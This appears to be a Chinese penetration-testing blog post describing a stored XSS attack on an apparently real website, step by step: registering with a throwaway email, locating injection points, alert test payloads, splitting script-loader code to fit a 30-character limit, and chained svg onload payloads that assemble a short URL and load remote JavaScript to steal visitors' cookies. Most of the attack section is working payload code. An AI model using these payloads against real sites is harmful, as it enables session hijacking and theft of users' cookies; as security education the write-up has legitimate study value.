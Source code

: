 +++
date = "2016-07-17T23:30:54+08:00"
description = ""
draft = false
tags = ["xss"]
title = "一次存储型XSS利用实例"
topics = ["Pentest"]

+++

首先感谢凯神的指导

### 0x00 注册账号
先得到一个临时邮箱，然后注册账号
![65](/img/post/xss_example_get_temporary_email.png)

![35](/img/post/xss_example_register.png)

### 0x01 找输入输出点
![40](/img/post/xss_example_add_topic.png)

![80](/img/post/xss_example_input_output_point.png)

### 0x02 尝试构造payload
payload用如下的即可：
```
<script>alert(1)</script>
"><script>alert(1)</script><a
```
但是这个要在点击删除时payload才起作用
![40](/img/post/xss_example_payload_test.png)
```
也可用<img src=1 onerror=alert(1) />自动加载，但也要点击删除按钮才能起作用  
但是我们若想充分利用则需要远程加载自己的js
```

### 0x03 加载自己的js
* 此时的限制条件为：

```
* 30个字符
* script标签不能自己触发
```

* 只能构造类似下面的语句自己加载脚本：

```
a=document.createElement('script');
a.src="www.xxx.com";
document.head.appendChild(a);
```

* 可以用如下方法分割，多次添加：

```
a=document.createE/*
*/lement('script');/*
*/a.src="www.xxx.com";/*
*/document.head.app/*
*/endChild(a);

但此处不可行，考虑直接用JQuery等的函数getScript(URL)直接加载url，然而此处依然不行
```

* 查找
![50](/img/post/xss_example_find_loadjs.png)

* 构造payload
![45](/img/post/xss_example_short_url.png)

```
使用如下payload：
<svg/onload="b='http://t.i'">
<svg/onload="b+='m/16ap6'">
<svg/onload="$loadJs(b)">
```

### 0x04 得到Cookie
![70](/img/post/xss_example_get_cookie.png)
